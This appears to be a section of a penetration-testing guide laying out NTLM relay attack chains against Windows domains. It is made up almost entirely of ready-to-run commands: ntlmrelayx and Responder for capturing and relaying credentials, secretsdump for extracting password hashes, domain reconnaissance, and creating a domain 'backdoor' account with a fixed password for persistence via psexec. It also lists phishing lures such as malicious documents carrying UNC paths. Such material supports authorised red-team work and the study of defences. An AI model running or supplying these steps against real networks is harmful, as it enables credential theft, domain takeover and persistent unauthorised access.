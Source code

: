 ## Attack Chain Integration

### Initial Network Compromise
```bash
# Step 1: Set up ntlmrelayx for credential capture
python3 ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Step 2: Trigger authentication (various methods)
# - Send malicious document with UNC path
# - Use responder to capture broadcasts
# - Social engineering to visit malicious webpage

# Step 3: Use captured access for further exploitation
python3 secretsdump.py -use-vss target.domain.com
```

### Responder Integration
```bash
# Terminal 1: Start responder to capture auth
python3 Responder.py -I eth0 -w

# Terminal 2: Set up relay attack
python3 ntlmrelayx.py -tf targets.txt -smb2support

# Combined approach captures and relays simultaneously
```

### Lateral Movement Chain
```bash
# Step 1: Relay to obtain initial access
python3 ntlmrelayx.py -t 192.168.1.100 -i -smb2support

# Step 2: Use interactive shell to gather info
# In relay shell:
# net user /domain
# net group "Domain Admins" /domain
# wmic computersystem get domain

# Step 3: Extract credentials for further attacks
python3 secretsdump.py domain.com/captured_user@192.168.1.100
```

### Privilege Escalation Chain
```bash
# Step 1: Relay low-privilege user to admin target
python3 ntlmrelayx.py -t domain_controller.domain.com -smb2support

# Step 2: Execute high-privilege commands
python3 ntlmrelayx.py -t dc.domain.com -c "net user backdoor P@ss123 /add /domain" -smb2support

# Step 3: Use created account for persistence
python3 psexec.py domain.com/backdoor:P@ss123@dc.domain.com
```
